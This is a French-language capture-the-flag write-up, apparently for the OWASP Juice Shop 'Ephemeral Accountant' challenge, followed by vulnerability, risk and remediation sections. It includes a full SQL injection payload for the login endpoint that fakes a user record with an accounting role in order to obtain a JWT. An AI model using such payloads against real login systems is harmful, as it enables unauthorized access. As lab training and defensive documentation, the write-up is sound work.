

**INjection-4-Ephemeral Accountant**

## 1. Methodology

**Step 1 – Préparation**

- Analyser la fonctionnalité de connexion en capturant une requête de connexion au compte envoyées.

**Step 2 – Injection SQL**

- Concevoir une charge utile d'injection SQL pour simuler temporairement l'existence d'un compte utilisateur sans modification persistante de la base de données.

**Step 3 – Connexion**

- Modifier la charge utile de la requête de connexion pour inclure l'injection SQL dans le champ email, en utilisant une sous-requête qui imite un enregistrement utilisateur avec des valeurs appropriées pour l'authentification.
- Utiliser la charge utile suivante pour la requête POST /rest/user/login :
  ```
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
  ```

**Step 4 – Validation**

- Envoyer la requête modifiée et vérifier que le serveur répond avec un jeton JWT, indiquant une connexion réussie.
- Accès réussi au compte éphémère.
- Challenge validé.

## Techniques utilisées:

- SQL Injection
- Account Creation Bypass

## Outils utilisés :

- Burp Suite

---

## 2. Vulnerabilities

**Vulnerability:**

- SQL Injection
- Broken Authentication

**Affected component:**

- Système d'authentification

**Severity:**

- **High**

---

## 3. Risks

- Création de comptes non autorisés.

---

## 4. Actions

**Risk Mitigation**

- Utiliser des requêtes préparées ou paramétrées pour traiter les entrées utilisateur comme des données plutôt que du code exécutable.

**Remediation Fix**

- Vérifier doublement côté serveur que le compte utilisateur existe réellement dans la base de données.
- Valider rigoureusement toutes les entrées utilisateur par rapport aux modèles attendus et les aseptiser.

**Best Practices**

- Suivre les recommandations OWASP pour la prévention des injections SQL.

---

## 5. Evidence

